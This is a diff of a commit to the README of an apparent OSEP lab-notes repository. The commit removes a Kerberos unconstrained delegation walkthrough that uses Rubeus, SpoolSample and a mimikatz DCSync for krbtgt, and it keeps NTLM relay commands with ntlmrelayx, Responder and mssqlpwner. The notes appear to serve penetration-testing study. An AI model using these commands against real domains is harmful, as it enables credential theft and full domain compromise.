

Before and after one commit to Extravenger/OSEPlayground, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -172,27 +172,3 @@ ntlmrelayx.py --no-http-server -smb2support -t smb://172.16.192.152 (gonna dump
 sudo responder -I tun0 (make sure SMB is turned OFF in /etc/responder/Responder.conf)
 mssqlpwner user:pass@<MSSQL INSTANCE IP> -windows-auth ntlm-relay <OUR ATTACKING MACHINE>
 ```
-
-# Kerberos Delegation
-
-## Unconstrained Delegation
-
-- Enumerate: `Get-DomainComputer -Unconstrained -Properties useraccountcontrol,dnshostname | fl`
-Any computer account that contains the `TRUSTED_FOR_DELEGATION` value in its UserAccountControl (UAC) attribute is a viable target.
-
-### Attack Walkthrough
-
-With SYSTEM shell on the system configured for Unconstrained Delegation, run Rubeus in monitor mode:
-- `.\Rubeus.exe monitor interval:5 /nowrap`
-
-Next, using a domain credential that you’ve previously compromised, trigger the printerbug.py or SpoolSample on the domain controller:
-- `.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB`
-
-`DC01.HACKER.LAB` is the domain controller we want to compromise
-`HELPDESK.HACKER.LAB` is the machine with delegation enabled that we control.
-
-Now, we can inject the ticket into memory using Rubeus:
-- `.\Rubeus.exe ptt /ticket:<BASE64 STRING>`
-
-To complete the attack, we’ll use mimikatz to perform a DCSync using the DC01$ TGT and request the NTLM hash for the dev\administrator account.
-- `lsadump::dcsync /user:megacorp\krbtgt /domain:megacorp.local`
````
